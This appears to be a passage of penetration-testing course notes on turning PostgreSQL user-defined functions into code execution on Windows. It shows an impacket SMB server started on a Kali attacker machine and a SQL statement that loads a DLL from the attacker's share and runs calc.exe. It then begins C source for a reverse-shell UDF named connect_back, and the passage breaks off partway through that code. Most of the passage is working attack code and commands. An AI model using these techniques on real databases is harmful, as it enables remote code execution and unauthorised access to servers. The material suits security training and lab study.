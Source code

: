 ```
kali@kali:~$ mkdir /home/kali/awae

kali@kali:~$ sudo impacket-smbserver awae /home/kali/awae/
[sudo] password for kali: 
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Listing 49 - Starting the Samba service with a simple configuration file to test remote DLL loading


 Once the Samba service is running, we can create a new Postgres UDF and point it to the DLL file hosted on the network share.
```
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
SELECT remote_test($$calc.exe$$, 3);
```
Listing 50 - Creating a UDF from a network share. 192.168.119.120 is the Kali attacker IP address.

##### UDF Reverse shell

└─$ cat rev_shell.c   

```

#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
connect_back(PG_FUNCTION_ARGS)
{

        /* convert C string to text pointer */
#define GET_TEXT(cstrp) \
   DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

        /* convert text pointer to C string */
```
